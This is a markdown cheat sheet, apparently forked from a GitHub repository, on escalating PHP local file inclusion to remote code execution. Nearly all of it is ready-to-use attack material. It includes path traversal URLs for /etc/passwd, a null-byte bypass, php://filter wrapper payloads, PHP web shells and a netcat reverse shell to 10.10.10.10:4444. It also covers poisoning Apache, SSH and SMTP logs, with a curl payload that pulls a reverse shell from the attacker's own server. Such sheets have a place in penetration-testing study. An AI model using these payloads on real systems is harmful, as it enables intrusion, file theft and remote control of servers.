 Fork from https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet

## Vulnerable PHP Code (LFI)

```
<?php
$file = $_GET['file'];
 include('directory/' . $file)
?>
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```
<?php
if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}
?>
```
    
## Bypassing PHP via NULL Byte
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
## Bypassing PHP via WRAPPERS
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
## PHP RCE
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>
```

## Dangerous PHP Functions that can be abused for RCE
```
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## LFI to RCE via Apache Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR
python -m SimpleHTTPServer 9000 
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 
    file_put_contents('shell.php')                                // What it will be saved locally on the target
    file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called
Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

## LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
## LFI to RCE via process injection
```
http//10.10.10.10/index.php?file=../../../../../../../proc/sched_debug # info
http//10.10.10.10/index.php?file=../../../../../../../proc/self/cmdline # current process
```


## LFI to RCE via SMTP Log File Poisoning (PHP)
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
